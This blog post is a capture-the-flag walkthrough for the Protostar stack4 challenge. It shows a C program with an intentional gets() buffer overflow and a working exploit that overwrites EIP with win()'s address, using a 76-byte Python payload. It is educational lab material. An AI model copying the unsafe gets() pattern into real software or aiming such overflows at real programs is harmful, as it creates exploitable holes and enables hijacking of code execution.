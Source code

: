 ```yaml
---
layout: post
title: "Overwriting the instruction pointer: protostar stack4"
date: 2018-10-29
categories: jekyll update
---
```


{% highlight c %}
This challenge is similar to the previous one, but with a major difference: 

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
{% endhighlight %}
There is a function, win() which we will attempt to call, but we are no longer given a function pointer to overwrite. 

We will need to write to the instruction pointer, in this case, it is specifically called the EIP. To do this, we first need to find the address of the win() function, because that is what we will write to the instruction pointer.

objdump is again perfect for this.

$objdump -D stack4 \| grep win

080483f4 \<win\>:

$

The address in this case is 0x80483f4.

We now just need to find the offset between the end of the buffer, which we will fill up, and the EIP we want to overwrite. This can be done by writing a script, trial and error, or we can just use what we did before (76 characters). The buffer is the same size, so we might as well give 76 a shot

$python -c 'print "A"*76' | ./stack4 

Segmentation fault

$

A segmentation fault is a good sign. We are overwriting the EIP, and causing it to access memory out of bounds. Just to be safe, we can test it at 75 characters and see if it segfaults.

$python -c 'print "A"*75' | ./stack4 

$

Looks like 76 is perfect, now we need to append the address of win(), in little endian byte order, and cause the program to execute the win() function.

$python -c 'print "A"*76 + "\xf4\x83\x04\x08"' | ./stack4

Code flow successfully changed

Segmentation fault

$

Looks like it works.
